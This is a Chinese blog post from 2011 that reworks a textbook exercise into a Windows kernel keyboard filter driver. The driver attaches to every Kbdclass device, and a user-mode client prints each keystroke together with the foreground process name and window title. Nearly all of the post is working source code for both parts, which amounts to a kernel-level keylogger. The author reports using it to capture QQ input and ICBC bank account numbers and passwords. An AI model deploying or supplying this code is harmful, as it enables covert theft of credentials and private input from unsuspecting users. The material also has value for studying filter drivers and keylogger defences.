

键盘过滤一(绑定KbdClass)
文章目录
这是寒江独钓里面的第4章的第一个例子, 绑定键盘设备, 采用的是绑定KbdClass驱动对象下的所有设备对象的做法, 算是比较高层了. 不过在这层进行截获可以获得很好的通用性. 我试验了一下腾讯的QQ, 能够截获到. 而且工商银行的账号和密码也可以截获到. 我倒. 这么大的银行难道都没有一点保护措施?? 难以置信!
其实这个绑定设备的和上一篇那个差不多, 主要就是过滤了.. 要过滤当然需要绑定KbdClass下面的所有设备对象, 这个可以自己手工遍历, 也可以通过IoEnumerateDeviceObjectList.不过这号函数我没有用. 遍历一个驱动对象下的设备对象也不是很难. 所以说基本上也就没有什么困难了.
寒江独钓在删除设备的时候用了延时什么的, 还搞了个全局定时器. 恩. 太麻烦了. 调用IoCancelIrp就可以了.. 好像说来说去都没有好说的, 就是这么个套路. 本来我还想直接搞一个可以翻译成正常的ASCII码的, 但是有点麻烦算了. 回头再说吧. 现在截取效果也是不错了.. 将就着..
这边是截图和代码.
http://www.joenchen.com/JoenTools/KeyBoardCap.rar

用户态的代码:
/* Windows 内核下键盘过滤设备的简单演示 应用层代码 编译方法参见makefile. TAB = 8 */ #include <windows.h> #include <stdio.h> #include <tchar.h> #include <Tlhelp32.h> #include <locale.h> #include “GetKey.h” #include <assert.h>
#pragma comment( linker, “/Entry:Jmain” ) #pragma comment( linker, “/SubSystem:Console” )
#define DEVICE_NAME “\\\\.\\SysLinkKeyBoardCap” //=========================================================================== //获取进程句柄对应的进程名称 //=========================================================================== BOOL _GetProcessName( DWORD dwProcessId, PTCHAR tcBuf ) { HANDLE _hSnapsHot; PROCESSENTRY32 _StProcess;
RtlZeroMemory( &\_StProcess, sizeof( PROCESSENTRY32 ) );
\_hSnapsHot = CreateToolhelp32Snapshot( TH32CS\_SNAPPROCESS, 0 );
if ( \_hSnapsHot == ( HANDLE ) - 1 ) {
return FALSE;
}
\_StProcess.dwSize = sizeof( PROCESSENTRY32 );
if ( !Process32First( \_hSnapsHot, &\_StProcess ) ) {
return FALSE;
}
do {
//查看是否是要查找的进程ID
if( \_StProcess.th32ProcessID == dwProcessId ) {
lstrcpy( tcBuf, ( LPCWSTR ) & ( \_StProcess.szExeFile ) );
return TRUE;
}
//这句是C语言有Bug的语句. 哈哈居然也可以编译通过
//while ( Process32Next, \_hSnapsHot, &\_StProcess );
} while ( Process32Next( \_hSnapsHot, &\_StProcess ) );
return FALSE;
} //=========================================================================== //打印按键信息 //sch :扫描码 //=========================================================================== static int kb_status = S_NUM; void __stdcall print_keystroke( UCHAR sch ) { UCHAR ch = 0; int off = 0;
if ( ( sch & 0x80 ) == 0 ) { //make
if ( ( sch < 0x47 ) ||
( ( sch >= 0x47 && sch < 0x54 ) && ( kb\_status & S\_NUM ) ) ) { // Num Lock
ch = asciiTbl\[off + sch\];
}
switch ( sch ) {
case 0x3A:
kb\_status ^= S\_CAPS;
break;
case 0x2A:
case 0x36:
kb\_status |= S\_SHIFT;
break;
case 0x45:
kb\_status ^= S\_NUM;
}
} else { //break
if ( sch == 0xAA || sch == 0xB6 )
kb\_status &= ~S\_SHIFT;
}
if ( ch >= 0x20 && ch < 0x7F ) {
printf( "状态码:%p %p %c\\n", kb\_status, ch, ch );
}else {
printf( "控制字符\\n" );
}
} //=========================================================================== //解析键盘按键消息 //pKeyBuf :按键消息缓冲区 //dwBufLen :缓冲区长度 //返回值, 如果是可打印的ASCII码, 返回True, 否则返回FALSE //=========================================================================== BOOL Resolve( PKEYBOARD_INPUT_DATA pKeyBuf, DWORD dwBufLen, PTCHAR pOutChar ) { ULONG i; // UCHAR cMakeCode; UCHAR ch = 0; ULONG off = 0; static DWORD kb_status = S_NUM; DWORD dwKeyBoardNum;
assert( pKeyBuf != NULL );
//按键的数量
dwKeyBoardNum = dwBufLen / sizeof( KEYBOARD\_INPUT\_DATA );
for( i = 0; i < dwKeyBoardNum; i++ ) {
wprintf( \_T( "按键数量:%d " ), dwKeyBoardNum );
wprintf( \_T( "扫描码:%p " ), pKeyBuf->MakeCode );
wprintf( \_T( "%-6ws" ), pKeyBuf->Flags ? \_T( "Up" ) : \_T( "Down" ) );
print\_keystroke( ( UCHAR )pKeyBuf->MakeCode );
pKeyBuf++;
}
return FALSE;
} //=========================================================================== ULONG Jmain( ) { HWND hWnd; BOOL bRet; DWORD dwProcessId; DWORD dwThreadId; DWORD dwOldProcessId; HANDLE hDevice; _TCHAR cChar; DWORD dwByteRead; _TCHAR SzBuf[512]; _TCHAR SzBuf2[512];
setlocale( LC\_ALL, "chs" ); //设置字符集
//————————————————————————— hDevice = CreateFile( _T( DEVICE_NAME ), GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL );
if ( hDevice == INVALID\_HANDLE\_VALUE ) {
wprintf( \_T( "打开设备失败!\\n" ) );
return -1;
}
//————————————————————————— //监听所有按下键盘的操作 //————————————————————————— RtlZeroMemory( SzBuf2, sizeof( SzBuf2 ) );
for( dwOldProcessId = 0;; ) {
//获取用户的最前台窗口
hWnd = GetForegroundWindow();
if ( !hWnd ) {
continue;
}
//————————————————————————— //获取当前有焦点的窗口的进程和线程句柄 dwThreadId = GetWindowThreadProcessId( hWnd, &dwProcessId );
if ( !dwThreadId ) {
wprintf( \_T( "获取线程Id失败!\\n" ) );
continue;
}
//获取进程名字
if ( !\_GetProcessName( dwProcessId, &SzBuf\[0\] ) ) {
wprintf( \_T( "获取进程名字失败!\\n" ) );
} else {
if ( dwOldProcessId != dwProcessId ) {
wprintf( \_T( "\\n--------------------------------------------------------------------\\n" ) );
wprintf( \_T( "进程名称:%ws\\n" ), &SzBuf\[0\] );
dwOldProcessId = dwProcessId;
}
}
//————————————————————————— //获取当前输入的窗口名称 RtlZeroMemory( &SzBuf[0], sizeof( SzBuf ) );
//获取窗口名称
if ( !GetWindowText( hWnd, &SzBuf\[0\], sizeof( SzBuf ) / 2 ) ) {
continue;
} else {
if ( lstrcmp( SzBuf2, SzBuf ) != 0 ) {
wprintf( \_T( "窗口名称:%s\\n" ), &SzBuf\[0\] );
lstrcpy( SzBuf2, SzBuf );
}
}
//————————————————————————— //当然最重要的就是获取上面的按键了 RtlZeroMemory( SzBuf, sizeof( SzBuf ) );
//向设备发送Irp\_mj\_Read
bRet = ReadFile( hDevice, SzBuf, sizeof( SzBuf ), &dwByteRead, NULL );
if ( !bRet ) {
wprintf( \_T( "串口读取完成!\\n" ) );
break;
} else {
//如果是能够解析到的按键, 那么打印
Resolve( ( PKEYBOARD\_INPUT\_DATA )SzBuf, dwByteRead, &cChar );
}
}
//————————————————————————— if ( hDevice != INVALID_HANDLE_VALUE ) { CloseHandle( hDevice ); }
system( "pause" );
return 0;
}
这边是内核态的代码:
/* Windows 内核下键盘过滤设备的简单演示 驱动层代码 编译方法参见makefile. TAB = 8 */ #include <ntddk.h> #include “KeyBoard.h”
#define DEVICE_NAME L"\\Device\\DevKeyBoardCap" #define SYS_LINK_NAME L"\\??\\SysLinkKeyBoardCap" #define KBD_DRIVER_NAME L"\\Driver\\Kbdclass" // Kbdclass驱动的名字
//————————————————————————— typedef struct tagDeviceExt { ULONG bFlags; //TRUE表示过滤设备, FALSE就是我们自己的设备了 PIRP pCurrentIrp; PIRP pRoxyIrp; //代理Irp PDEVICE_OBJECT pDeviceObj; PDEVICE_OBJECT pLowDeviceObj; UNICODE_STRING USzDeviceName; UNICODE_STRING USzSysLinkName; } DEVICE_EXT, *PDEVICE_EXT;
//=========================================================================== //驱动卸载例程 //=========================================================================== VOID DriverUnLoad( PDRIVER_OBJECT pDriverObj ) { PDEVICE_EXT pDeviceExt = NULL; PDEVICE_OBJECT pNextDeviceObj = NULL;
pNextDeviceObj = pDriverObj->DeviceObject;
while ( pNextDeviceObj ) {
pDeviceExt = pNextDeviceObj->DeviceExtension;
ASSERT( pDeviceExt );
//如果有未决的Irp
if ( pDeviceExt->pCurrentIrp ) {
IoCancelIrp( pDeviceExt->pCurrentIrp );
}
//如果还有自己的代理irp
if ( pDeviceExt->pRoxyIrp ) {
IoCancelIrp( pDeviceExt->pRoxyIrp );
}
//取消绑定
if ( pDeviceExt->pLowDeviceObj ) {
IoDetachDevice( pDeviceExt->pLowDeviceObj );
}
//删除符号链接
if ( pDeviceExt->USzSysLinkName.Buffer ) {
IoDeleteSymbolicLink( &pDeviceExt->USzSysLinkName );
}
//删除设备
IoDeleteDevice( pDeviceExt->pDeviceObj );
if ( pDeviceExt->USzDeviceName.Buffer ) {
KdPrint ( ( "删除%wZ设备成功!\\n", &pDeviceExt->USzDeviceName ) );
} else {
KdPrint ( ( "删除无名设备成功1\\n" ) );
}
pNextDeviceObj = pNextDeviceObj->NextDevice;
}
} //=========================================================================== //创建设备用于和R3通信 //pDriverObj 驱动对象指针 //pDeviceObjName 设备对象名称 //pSysLinkName 设备对象的符号链接名称(可以为NULL) //bFlags 是否是绑定设备的标记 //pDeviceObj 二级指针, 用于返回设备对象 //=========================================================================== NTSTATUS _CreateDevice( PDRIVER_OBJECT pDriverObj, PUNICODE_STRING pDeviceObjName, PUNICODE_STRING pSysLinkName, ULONG bFlags, PDEVICE_OBJECT* pDeviceObj ) {
NTSTATUS Status;
PDEVICE\_EXT pDeviceExt = NULL;
PAGED\_CODE();
//————————————————————————— Status = IoCreateDevice( pDriverObj, sizeof( DEVICE_EXT ), pDeviceObjName, FILE_DEVICE_UNKNOWN, 0, TRUE, pDeviceObj );
if ( !NT\_SUCCESS( Status ) ) {
KdPrint ( ( "创建%wZ设备失败!\\n", pDeviceObjName ) );
return Status;
}
if ( pSysLinkName ) {
Status = IoCreateSymbolicLink( pSysLinkName, pDeviceObjName );
if ( !NT\_SUCCESS( Status ) ) {
KdPrint ( ( "创建%wZ符号链接失败!\\n", pSysLinkName ) );
IoDeleteDevice( \*pDeviceObj );
return Status;
}
}
//————————————————————————— pDeviceExt = ( *pDeviceObj )->DeviceExtension; ASSERT( pDeviceExt );
//设置设备属性, 因为这个设备不是过滤设备, 所以bFlags为False
RtlZeroMemory( pDeviceExt, sizeof( DEVICE\_EXT ) );
pDeviceExt->pDeviceObj = \*pDeviceObj;
pDeviceExt->bFlags = bFlags;
if ( pDeviceObjName ) {
pDeviceExt->USzDeviceName = \*pDeviceObjName;
}
if ( pSysLinkName ) {
pDeviceExt->USzSysLinkName = \*pSysLinkName;
}
return Status;
}
//=========================================================================== //绑定Kbdclass下的所有设备对象 //pDriverObj :驱动对象 //返回值 :状态 //=========================================================================== NTSTATUS _AttachAllKeyBoards( PDRIVER_OBJECT pDriverObj ) { NTSTATUS Status; PDRIVER_OBJECT pKbdDriverObj = NULL; PDEVICE_OBJECT pTagetDeviceObj = NULL; PDEVICE_OBJECT pFilterDeviceObj = NULL; PDEVICE_OBJECT pLowerDeviceObj = NULL; PDEVICE_EXT pDeviceExt = NULL; POBJECT_HEADER ObjHeader = NULL; POBJECT_HEADER_NAME_INFO ObjName = NULL; UNICODE_STRING USzKbdClass = RTL_CONSTANT_STRING( KBD_DRIVER_NAME );
PAGED\_CODE();
//————————————————————————— Status = ObReferenceObjectByName( &USzKbdClass, OBJ_CASE_INSENSITIVE, NULL, 0, IoDriverObjectType, KernelMode, NULL, &pKbdDriverObj );
if ( !NT\_SUCCESS( Status ) ) {
return Status;
} else {
// 这个打开需要解应用。早点解除了免得之后忘记。
ObDereferenceObject( pKbdDriverObj );
}
//————————————————————————— //遍历Kbdclass下所有的设备对象, 进行绑定 pTagetDeviceObj = pKbdDriverObj->DeviceObject;
while ( pTagetDeviceObj ) {
//创建和R3通信的设备Flags = FALSE
Status = \_CreateDevice( pDriverObj, NULL, NULL, TRUE, &pFilterDeviceObj );
if ( !NT\_SUCCESS( Status ) ) {
KdPrint ( ( "创建过滤设备失败!\\n" ) );
return Status;
}
Status = IoAttachDeviceToDeviceStackSafe( pFilterDeviceObj, pTagetDeviceObj,
&pLowerDeviceObj );
if ( !NT\_SUCCESS( Status ) ) {
KdPrint ( ( "绑定设备失败!\\n" ) );
IoDeleteDevice( pFilterDeviceObj );
pFilterDeviceObj = NULL;
return Status;
}
//设置设备扩展属性
pDeviceExt = pFilterDeviceObj->DeviceExtension;
pDeviceExt->pLowDeviceObj = pLowerDeviceObj;
pDeviceExt->pDeviceObj = pFilterDeviceObj;
//设置过滤设备的属性(重要, 不要设置错了)
pFilterDeviceObj->DeviceType = pLowerDeviceObj->DeviceType;
pFilterDeviceObj->Characteristics = pLowerDeviceObj->Characteristics;
pFilterDeviceObj->StackSize = pLowerDeviceObj->StackSize + 1;
pFilterDeviceObj->Flags |= pLowerDeviceObj->Flags
& ( DO\_BUFFERED\_IO | DO\_DIRECT\_IO | DO\_POWER\_PAGABLE );
//————————————————————————— //得到对象头 ObjHeader = OBJECT_TO_OBJECT_HEADER( pLowerDeviceObj ); ASSERT( ObjHeader != NULL );
//查询设备名称
ObjName = OBJECT\_HEADER\_TO\_NAME\_INFO( ObjHeader );
KdPrint ( ( "绑定%wZ设备成功!\\n", &ObjName->Name ) );
//————————————————————————— //遍历下一个设备 pTagetDeviceObj = pTagetDeviceObj->NextDevice; }
return Status;
} //=========================================================================== //所有不关心的的Irp处理 //=========================================================================== NTSTATUS DispatchRoutine( PDEVICE_OBJECT pDeviceObj, PIRP pIrp ) { PDEVICE_EXT pDeviceExt = NULL;
pDeviceExt = pDeviceObj->DeviceExtension;
ASSERT( pDeviceExt );
//————————————————————————— //过滤设备不关心的Irp处理 if ( pDeviceExt->bFlags ) { IoSkipCurrentIrpStackLocation( pIrp );
KdPrint ( ( "不关心的Irp来了一次!\\n" ) );
//这里返回值应该返回底层设备返回的值(注意了)
return IoCallDriver( pDeviceExt->pLowDeviceObj, pIrp );
//————————————————————————— //我们和R3设备之间的通信 } else { pIrp->IoStatus.Information = 0; pIrp->IoStatus.Status = STATUS_SUCCESS;
IoCompleteRequest( pIrp, IO\_NO\_INCREMENT );
KdPrint ( ( "R3不关心的Irp来了一次!\\n" ) );
return STATUS\_SUCCESS;
}
}
//=========================================================================== //在键盘设备的读取请求中, 完成我们自己创建的R3设备 //pDriverObj :驱动对象 //pBuf :欲Copy到3环的缓冲区 //ulBufLen :缓冲区长度 //=========================================================================== NTSTATUS _CompletionR3Read( PDRIVER_OBJECT pDriverObj, PUCHAR pBuf, ULONG ulBufLen ) { ULONG ulUserBufLen; PUCHAR pUserBuf = NULL; PDEVICE_EXT pDeviceExt = NULL; PDEVICE_OBJECT pNextDevice = NULL; PIO_STACK_LOCATION pUserStack = NULL;
//遍历所有设备找到我们自己和R3通信的设备
pNextDevice = pDriverObj->DeviceObject;
ASSERT( pNextDevice != NULL );
for( ; pNextDevice != NULL; pNextDevice = pNextDevice->NextDevice ) {
pDeviceExt = pNextDevice->DeviceExtension;
ASSERT( pDeviceExt );
if ( !pDeviceExt->pCurrentIrp || pDeviceExt->bFlags ) {
continue;
}
//获取R3那边读取请求的Irp
pUserStack = IoGetCurrentIrpStackLocation( pDeviceExt->pCurrentIrp );
ASSERT( pUserStack != NULL );
//缓冲区长度
ulUserBufLen = pUserStack->Parameters.Read.Length;
//映射R3那边的地址到高2G这边来
pUserBuf = MmGetSystemAddressForMdlSafe( pDeviceExt->pCurrentIrp->MdlAddress,
NormalPagePriority );
//如果缓冲区传递错误了
if ( !pUserBuf ) {
pDeviceExt->pCurrentIrp->IoStatus.Status = STATUS\_INVALID\_PARAMETER;
pDeviceExt->pCurrentIrp->IoStatus.Information = 0;
} else {
//如果用户态那边的缓冲区太少, 返回错误
if ( ulUserBufLen < ulBufLen ) {
pDeviceExt->pCurrentIrp->IoStatus.Status = STATUS\_BUFFER\_TOO\_SMALL;
pDeviceExt->pCurrentIrp->IoStatus.Information = 0;
} else {
//条件都够了那么就Copy内存过去
RtlCopyMemory( pUserBuf, pBuf, ulBufLen );
pDeviceExt->pCurrentIrp->IoStatus.Status = STATUS\_SUCCESS;
pDeviceExt->pCurrentIrp->IoStatus.Information = ulBufLen;
}
}
IoCompleteRequest( pDeviceExt->pCurrentIrp, IO\_NO\_INCREMENT );
pDeviceExt->pCurrentIrp = NULL;
pDeviceExt = NULL;
return STATUS\_SUCCESS;
}
return STATUS\_UNSUCCESSFUL;
} //=========================================================================== //读取请求的完成例程, 这边如果有我们自己创建设备的挂起的Irp那么就会在这里完成 //=========================================================================== NTSTATUS CompletionRead( PDEVICE_OBJECT pDeviceObj, PIRP pIrp, PVOID pContext ) { ULONG ulBufLen, i; NTSTATUS Status; PUCHAR pBuf = NULL; PIO_STACK_LOCATION pStack = NULL;
PAGED\_CODE();
//————————————————————————— pStack = IoGetCurrentIrpStackLocation( pIrp );
//判断请求是否成功, 不成功处理是没有意义的
if ( NT\_SUCCESS( pIrp->IoStatus.Status ) ) {
//获取读取请求的缓冲区, 和长度
pBuf = pIrp->AssociatedIrp.SystemBuffer;
ulBufLen = pIrp->IoStatus.Information;
for( i = 0; i < ulBufLen; i++ ) {
KdPrint ( ( "%3X", pBuf\[i\] ) );
}
KdPrint ( ( "\\n" ) );
//这里保存起自己的Irp, 用于在卸载时发送取消消息
( ( PDEVICE\_EXT )pDeviceObj->DeviceExtension )->pRoxyIrp = pIrp;
//————————————————————————— //如果与我们通信的3环Irp被挂起了, 那么这里就可以返回了 //————————————————————————— Status = _CompletionR3Read( pDeviceObj->DriverObject, pBuf, ulBufLen );
if ( !NT\_SUCCESS( Status ) ) {
KdPrint ( ( "R3那边的读取请求完成失败!\\n" ) );
} else {
KdPrint ( ( "R3那边的请求成功完成!\\n" ) );
}
}
//————————————————————————— //进入此函数标志底层驱动设备将IRP完成 KdPrint( ( “Completion:读取请求的完成例程\n” ) );
if ( pIrp->PendingReturned ) {
//传播pending位
IoMarkIrpPending( pIrp );
}
return pIrp->IoStatus.Status;
} //=========================================================================== //我们和R3通信设备的取消例程 //=========================================================================== VOID OnCancelIRP( PDEVICE_OBJECT pDeviceObj, PIRP pIrp ) { PDEVICE_EXT pDeviceExt = NULL;
PAGED\_CODE\_LOCKED();
//————————————————————————— //释放Cancel自旋锁 IoReleaseCancelSpinLock( pIrp->CancelIrql );
pDeviceExt = pDeviceObj->DeviceExtension;
ASSERT( pDeviceExt );
if ( pDeviceExt->pCurrentIrp == pIrp ) {
pDeviceExt->pCurrentIrp = NULL;
}
//设置完成状态为STATUS\_CANCELLED
pIrp->IoStatus.Status = STATUS\_CANCELLED;
pIrp->IoStatus.Information = 0;
IoCompleteRequest( pIrp, IO\_NO\_INCREMENT );
KdPrint ( ( "和R3的通信设备取消例程被调用!\\n" ) );
} //=========================================================================== //读取请求过滤 //=========================================================================== NTSTATUS DispatchRead( PDEVICE_OBJECT pDeviceObj, PIRP pIrp ) { PDEVICE_EXT pDeviceExt = NULL; PIO_STACK_LOCATION pStack = NULL;
pDeviceExt = pDeviceObj->DeviceExtension;
ASSERT( pDeviceExt );
//————————————————————————— //如果是过滤设备 if ( pDeviceExt->bFlags ) {
//这句一直都没有搞明白,
if ( pIrp->CurrentLocation == 1 ) {
pIrp->IoStatus.Information = 0;
pIrp->IoStatus.Status = STATUS\_SUCCESS;
IoCompleteRequest( pIrp, IO\_NO\_INCREMENT );
return STATUS\_SUCCESS;
}
pStack = IoGetCurrentIrpStackLocation( pIrp );
IoCopyCurrentIrpStackLocationToNext( pIrp );
//设置完成例程
IoSetCompletionRoutine( pIrp, &CompletionRead, pDeviceObj, TRUE, TRUE, TRUE );
KdPrint ( ( "键盘读取请求来了, 我们设置了一个回调例程!\\n" ) );
return IoCallDriver( pDeviceExt->pLowDeviceObj, pIrp );
//————————————————————————— //如果是我们自己创建的设备 } else {
//如果这里为TRUE, 那么肯定是上次没有来得及处理的Irp, 那么取消
if ( pDeviceExt->pCurrentIrp ) {
IoCancelIrp( pDeviceExt->pCurrentIrp );
pDeviceExt->pCurrentIrp = NULL;
}
pDeviceExt->pCurrentIrp = pIrp;
//将IRP设置为挂起
IoMarkIrpPending( pIrp );
//设置取消例程
IoSetCancelRoutine( pIrp, OnCancelIRP );
KdPrint ( ( "R3读取请求来了一次!\\n" ) );
//返回pending状态
return STATUS\_PENDING;
}
} //=========================================================================== //写入请求处理例程 //=========================================================================== NTSTATUS DispatchWrite( PDEVICE_OBJECT pDeviceObj, PIRP pIrp ) { PDEVICE_EXT pDeviceExt = NULL;
pDeviceExt = pDeviceObj->DeviceExtension;
//如果是过滤设备
if ( pDeviceExt->bFlags ) {
IoSkipCurrentIrpStackLocation( pIrp );
//这里返回值应该返回底层设备返回的值(注意了)
return IoCallDriver( pDeviceExt->pLowDeviceObj, pIrp );
//————————————————————————— //如果是我们自己创建的设备 } else { pIrp->IoStatus.Information = 0; pIrp->IoStatus.Status = STATUS_SUCCESS; IoCompleteRequest( pIrp, IO_NO_INCREMENT ); return STATUS_SUCCESS; } } //=========================================================================== //电源设备请求 //=========================================================================== NTSTATUS DispatchPower( PDEVICE_OBJECT pDeviceObj, PIRP pIrp ) { PDEVICE_EXT pDeviceExt = NULL;
pDeviceExt = pDeviceObj->DeviceExtension;
//如果是过滤设备
if ( pDeviceExt->bFlags ) {
PoStartNextPowerIrp( pIrp );
IoSkipCurrentIrpStackLocation( pIrp );
//返回底层设备返回的值
return PoCallDriver( pDeviceExt->pLowDeviceObj, pIrp );
//————————————————————————— //如果是我们自己创建的设备 } else { pIrp->IoStatus.Information = 0; pIrp->IoStatus.Status = STATUS_SUCCESS; IoCompleteRequest( pIrp, IO_NO_INCREMENT ); return STATUS_SUCCESS; } } //=========================================================================== //驱动程序入口 //=========================================================================== #pragma code_seg( “INIT”, “DriverEntry” ) NTSTATUS DriverEntry( PDRIVER_OBJECT pDriverObj, PUNICODE_STRING pRegPath ) { ULONG i; NTSTATUS Status; PDEVICE_OBJECT pDeviceObj = NULL; UNICODE_STRING USzDeviceName = RTL_CONSTANT_STRING( DEVICE_NAME ); UNICODE_STRING USzSysLinkName = RTL_CONSTANT_STRING( SYS_LINK_NAME );
//————————————————————————— //创建和R3通信的设备Flags = FALSE Status = _CreateDevice( pDriverObj, &USzDeviceName, &USzSysLinkName, FALSE, &pDeviceObj );
if ( !NT\_SUCCESS( Status ) ) {
KdPrint ( ( "创建和R3通信的设备失败!\\n" ) );
return Status;
}
ASSERT( pDeviceObj != NULL );
//设置缓冲区操作方式(操作设备的时候老是用=不用|=
pDeviceObj->Flags |= DO\_DIRECT\_IO;
pDeviceObj->Flags &= ~DO\_DEVICE\_INITIALIZING;
//————————————————————————— //绑定所有的键盘设备 Status = _AttachAllKeyBoards( pDriverObj );
if ( !NT\_SUCCESS( Status ) ) {
KdPrint ( ( "绑定KbdClass设备失败!\\n" ) );
return Status;
}
//————————————————————————— //设置分发函数 for( i = 0; i < IRP_MJ_MAXIMUM_FUNCTION; i++ ) { pDriverObj->MajorFunction[i] = &DispatchRoutine; }
pDriverObj->MajorFunction\[IRP\_MJ\_READ\] = &DispatchRead;
pDriverObj->MajorFunction\[IRP\_MJ\_WRITE\] = &DispatchWrite;
pDriverObj->MajorFunction\[IRP\_MJ\_POWER\] = &DispatchPower;
pDriverObj->DriverUnload = &DriverUnLoad;
KdPrint ( ( "DriverEntry执行完毕!\\n" ) );
//————————————————————————— return Status; }
文章作者 忆杰
上次更新 2011-11-25